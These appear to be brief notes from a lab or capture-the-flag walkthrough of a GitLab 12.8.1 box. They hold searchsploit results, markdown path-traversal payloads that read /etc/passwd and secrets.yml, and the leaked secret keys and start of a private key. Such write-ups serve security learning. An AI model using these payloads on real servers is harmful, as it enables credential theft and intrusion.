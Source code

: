 create an account

found a plublic project but nothing interesting

gitlab help

GitLab Community Edition 12.8.1

kali@kali:~$ searchsploit gitlab
-------------------------------------------------- ---------------------------------
 Exploit Title                                    |  Path
-------------------------------------------------- ---------------------------------
GitLab - 'impersonate' Feature Privilege Escalati | ruby/webapps/40236.txt
GitLab 12.9.0 - Arbitrary File Read               | ruby/webapps/48431.txt
Gitlab 6.0 - Persistent Cross-Site Scripting      | php/webapps/30329.sh
Gitlab-shell - Code Execution (Metasploit)        | linux/remote/34362.rb
Jenkins Gitlab Hook Plugin 1.4.2 - Reflected Cros | java/webapps/47927.txt
NPMJS gitlabhook 0.0.17 - 'repository' Remote Com | json/webapps/47420.txt
-------------------------------------------------- ---------------------------------
Shellcodes: No Results

https://hackerone.com/reports/827052

![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)

![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)


    :::text
    # This file is managed by gitlab-ctl. Manual changes will be
    # erased! To change the contents below, edit /etc/gitlab/gitlab.rb
    # and run `sudo gitlab-ctl reconfigure`.

    ---
    production:
      db_key_base: 627773a77f567a5853a5c6652018f3f6e41d04aa53ed1e0df33c66b04ef0c38b88f402e0e73ba7676e93f1e54e425f74d59528fb35b170a1b9d5ce620bc11838
      secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
      otp_key_base: db3432d6fa4c43e68bf7024f3c92fea4eeea1f6be1e6ebd6bb6e40e930f0933068810311dc9f0ec78196faa69e0aac01171d62f4e225d61e0b84263903fd06af
      openid_connect_signing_key: |
        -----BEGIN RSA PRIVATE KEY-----
        MIIJKQIBAAKCAgEA5LQnENotwu/SUAshZ9vacrnVeYXrYPJoxkaRc2Q3JpbRcZTu
        <SNIP>

https://www.howtoforge.com/how-to-install-gitlab-with-docker-on-ubuntu-2004/
